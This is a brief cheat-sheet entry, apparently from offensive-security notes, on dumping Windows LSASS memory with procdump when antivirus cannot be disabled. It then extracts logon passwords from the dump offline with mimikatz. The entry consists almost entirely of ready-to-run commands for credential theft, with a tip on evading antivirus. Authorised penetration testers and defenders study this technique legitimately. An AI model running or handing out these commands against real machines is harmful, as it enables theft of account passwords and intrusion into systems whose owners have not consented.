 # Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    ```batch
    procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
    ```
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```
